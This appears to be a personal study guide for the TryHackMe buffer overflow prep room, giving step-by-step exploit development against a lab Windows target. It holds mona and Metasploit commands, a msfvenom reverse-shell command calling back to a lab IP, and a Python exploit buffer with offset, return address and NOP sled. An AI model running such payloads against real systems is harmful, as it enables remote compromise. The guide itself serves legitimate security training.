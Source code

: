 # Buffer Overflow Guide 2

Working off the buffer overflow prep room: https://tryhackme.com/room/bufferoverflowprep

## Overflow 1 - general steps

Open target in immunity (with mona installed - see BUFFER-OVERFLOW-1.md for instructions), and set running.
For the first challenge, when run, to overflow you send OVERFLOW1 <string> after connecting.

1. Find the offset length. This can be done by fuzzing with longer and longer strings: the room does this with a script that connects and sends a increasing string, which gives the approx fail point.

Once an idea is gained, generate the trace string: find pattern_create.rb from the metasploit framework (`find / -name pattern_create.rb 2>/dev/null`), and run it like so (using path from THM attackbox): `/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 2400` (assuming a fail length of somewhere around 2400).

When this fails, in immunity, run `!mona findmsp -distance 2400` matching the length there. This will return the offset in the log ("EIP contains normal pattern : blah (offset <here>)")

2. Work out bad characters. Run `!mona bytearray -b "\x00"` to generate a big character string. This will create a bin file and a txt file, the text file containing a set of char options. Send this payload (resetting the exe in immunity). 

Take the value out of the ESP register when it crashes, and then add to a mona command like so: `!mona compare -f c:\moda\oscp\bytearray.bin -a 0186FA30`, with the path to generated bin and the provided address in there. This will run and either return 'unmodified' in red, or a set of 'possibly bad characters'.

Repeat step 2, adding those bad characters to \x00 above, and do so until unmodified is returned.

3. Find a jump esp command. This can be done in mona passing in the found bad characters, e.g. `!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\xa1"` Pick an address from the list.

Once you have an address, reverse and hexify it. For example, 625011AF becomes \xAF\x11\x50\x62

4. Generate some shell code with msfvenom, passing in bad chars and the bind port: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.206.220 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f py`

5. Finally, deliver the payload like so:

offset from step 1, retn being step 3, payload from step 5. The padding is just to allow the unpacking of the msfcommand.

```
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xAF\x11\x50\x62"
padding = "\x90" * 16
payload = buf
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
```
